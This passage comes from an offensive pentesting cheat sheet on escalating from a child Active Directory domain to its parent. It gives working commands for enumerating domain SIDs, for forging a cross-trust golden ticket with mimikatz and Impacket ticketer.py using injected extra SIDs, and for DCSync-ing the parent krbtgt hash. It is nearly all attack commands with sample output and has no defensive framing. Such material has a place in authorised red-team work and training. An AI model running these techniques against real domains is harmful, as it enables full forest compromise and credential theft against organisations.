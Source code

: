 **3.** SID of the child domain:

{% tabs %}
{% tab title="Windows" %}
```
PV > Get-DomainSID
S-1-5-21-4266912945-3985045794-2943778634
```
{% endtab %}
{% tab title="Linux" %}
```
$ lookupsid.py megacorp.local/snovvcrash:'Passw0rd!'@DC01.megacorp.local 0 | grep 'Domain SID'
[*] Domain SID is: S-1-5-21-4266912945-3985045794-2943778634
```
{% endtab %}
{% endtabs %}

**4.** SID of the parent domain:

```
PS > (New-Object System.Security.Principal.NTAccount("megacorp.local","krbtgt")).Translate([System.Security.Principal.SecurityIdentifier]).Value
S-1-5-21-2284550090-1208917427-1204316795-502
```

Create cross-trust golden ticket:

{% tabs %}
{% tab title="Windows" %}
```
mimikatz # kerberos::golden /domain:child.megacorp.local /user:DC01$ /id:1 337 /groups:516 /sid:S-1-5-21-4266912945-3985045794-2943778634 /sids:S-1-5-21-2284550090-1208917427-1204316795-516,S-1-5-9 /krbtgt:00ff00ff00ff00ff00ff00ff00ff00ff /ptt [/startoffset:-10 /endin:60 /renewmax:10080]
```
{% endtab %}
{% tab title="Linux" %}
```
$ ticketer.py -domain child.megacorp.local -domain-sid S-1-5-21-4266912945-3985045794-2943778634 {-nthash <RC4_32> | -aesKey <AES_64> } [-groups 516] [-user-id 1337] [-duration 87600] -extra-sid S-1-5-21-2284550090-1208917427-1204316795-516,S-1-5-9 'DC01$'
```
{% endtab %}
{% endtabs %}

For DCSyncing we'll need only parent domain FQDN (`megacorp.local`):

```
PS > ([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest())[0].RootDomain.Name
megacorp.local
```

DCSync:

```
mimikatz # lsadump::dcsync /user:megacorp.local\krbtgt /domain:megacorp.local
```



